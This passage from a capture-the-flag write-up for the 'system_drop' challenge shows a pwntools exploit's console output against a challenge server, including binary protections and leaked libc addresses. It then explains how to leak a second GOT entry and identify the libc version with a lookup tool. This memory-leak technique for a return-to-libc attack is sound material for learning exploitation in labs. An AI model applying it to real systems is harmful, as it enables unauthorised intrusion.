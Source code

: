 And the result of running that should be:

```
knittingirl@piglet:~/CTF/HTBApocalypse$ python3 system_drop_writeup.py 
[+] Opening connection to 138.68.147.93 on port 31865: Done
[*] '/home/knittingirl/CTF/HTBApocalypse/system_drop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/knittingirl/CTF/HTBApocalypse/system_drop_libc.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
We got result
b'\x10&7\xca\x0c\x7f\x00\x00@\xe19\xca\x0c\x7f\x00\x00\x00'
0x7f0cca372610
[*] Switching to interactive mode
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
$ 
[*] Interrupted

```
If you switch the script slightly to write the contents of the read_got_plt gadget instead of alarm_got_plt, that will give you a result of:
```
0x7ff107e73140
```

Now, if you plug those numbers into the blukat tool, you get exactly one result:

![Blukat Screenshot](screenshots/Blukat_Screenshot.png?raw=true)
